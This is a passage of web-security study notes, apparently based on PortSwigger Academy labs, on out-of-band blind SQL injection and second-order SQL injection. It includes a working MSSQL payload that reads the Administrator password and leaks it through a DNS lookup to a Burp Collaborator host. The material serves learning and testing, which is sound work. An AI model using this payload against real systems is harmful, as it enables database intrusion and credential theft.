 * &#x20;This will cause the database to perform a lookup for the following domain:
  * `0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`
* &#x20;Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:
  * `'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`
* &#x20;This input reads the password for the `Administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This will result in a DNS lookup like the following, allowing you to view the captured password:
  * `S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.n`[`et`](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)
* [https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)
* [https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)
* [https://portswigger.net/burp/application-security-testing/oast](https://portswigger.net/burp/application-security-testing/oast)

## Second Order Injection

* &#x20;First-order SQL injection arises where the application takes user input from an HTTP request and, in the course of processing that request, incorporates the input into an SQL query in an unsafe way.
* In second-order SQL injection (also known as stored SQL injection), the application takes user input from an HTTP request and stores it for future use. This is usually done by placing the input into a database, but no vulnerability arises at the point where the data is stored. Later, when handling a different HTTP request, the application retrieves the stored data and incorporates it into an SQL query in an unsafe way.
